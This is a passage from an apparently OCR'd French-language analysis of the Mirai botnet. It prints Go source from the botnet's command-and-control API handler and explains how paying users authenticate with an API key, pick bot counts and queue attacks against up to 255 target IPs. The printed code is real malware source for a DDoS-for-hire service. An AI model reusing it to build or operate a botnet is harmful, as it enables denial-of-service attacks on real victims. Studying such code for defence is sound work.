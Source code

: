 ```go
}

func apiHandler(conn net.Conn) {
    //...
    NewApi(conn).Handle()
}
```

Le processus de lancement d'une attaque est programmé dans la fonction Handle dans mirai/cnc/api.go. La fonction interroge la base de données afin de vérifier que l'utilisateur possède bien une clé d'API lui permettant de lancer une attaque et que le nombre de bot demandé est inférieur ou égal au nombre maximal de bots auquel l'utilisateur à droit (ceci étant proportionnel au prix que l'utilisateur du service a payé). L'interface permet de choisir jusqu'à 255 cibles (adresses IP) par attaque. Une fois les paramètres de l'attaque validés, celle-ci est ajoutée à la liste des attaques en attente d'être lancées.

```go
func (this *Api) Handle() {
    var botCount int
    var apiKeyValid bool
    var userInfo AccountInfo

    // Get command
    this.conn.SetDeadline(time.Now().Add(60 * time.Second))
    cmd, err := this.ReadLine()
    if err != nil {
        this.conn.Write([]byte("ERR|Failed reading line\r\n"))
        return
    }
    passwordSplit := strings.SplitN(cmd, "|", 2)
    if apiKeyValid, userInfo = database.CheckApiCode(passwordSplit[0]); !apiKeyValid {
        this.conn.Write([]byte("ERR|API code invalid\r\n"))
        return
    }
    botCount = userInfo.maxBots
    cmd = passwordSplit[1]
    if cmd[0] == '-' {
        countSplit := strings.SplitN(cmd, " ", 2)
        count := countSplit[0][1:]
        botCount, err = strconv.Atoi(count)
        if err != nil {
            this.conn.Write([]byte("ERR|Failed parsing botcount\r\n"))
            return
        }
        if userInfo.maxBots != -1 && botCount > userInfo.maxBots {
            this.conn.Write([]byte("ERR|Specified bot count over limit\r\n"))
            return
        }
        cmd = countSplit[1]
    }

    atk, err := NewAttack(cmd, userInfo.admin)
    if err != nil {
        this.conn.Write([]byte("ERR|Failed parsing attack command\r\n"))
        return
    }
    buf, err := atk.Build()
    if err != nil {
        this.conn.Write([]byte("ERR|An unknown error occurred\r\n"))
        return
    }
    if database.ContainsWhitelistedTargets(atk) {
        this.conn.Write([]byte("ERR|Attack targetting whitelisted target\r\n"))
        return
```